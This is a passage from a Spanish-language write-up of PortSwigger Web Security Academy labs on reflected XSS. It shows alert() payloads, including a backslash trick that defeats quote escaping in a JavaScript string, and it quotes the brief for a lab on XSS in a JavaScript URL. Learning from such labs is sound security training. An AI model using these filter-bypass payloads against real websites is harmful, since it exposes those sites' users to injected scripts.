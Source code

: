 URL

```
https://acc31f9a1fc4e81080ad779600f40026.web-security-academy.net/?search=';alert(document.domain)//	
```

Respuesta

```
<script>
    var searchTerms = '\';alert(document.domain)//';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

Entonces, como podemos ver le agrega un **\\** en la comilla simple entonces lo que haremos será agregar de por si un **\\** para que no nos bloquee la comilla simple, con el siguiente payload

```
\';alert(document.domain)//
```

![](img41.png)

## 16. Lab: Reflected XSS in a JavaScript URL with some characters blocked (P)

```
This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks.

To solve the lab, perform a cross-site scripting attack that calls the alert function with the string 1337 contained somewhere in the alert message.
```

URL

```
https://ac901f681ed32e2180a00c4e002a003e.web-security-academy.net/post?postId=2&aaa
```

Respuesta

```html
<div class="is-linkback">
	<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d2%26aaa'}).finally(_ => window.location = '/')">Back to Blog</a>
</div>
```
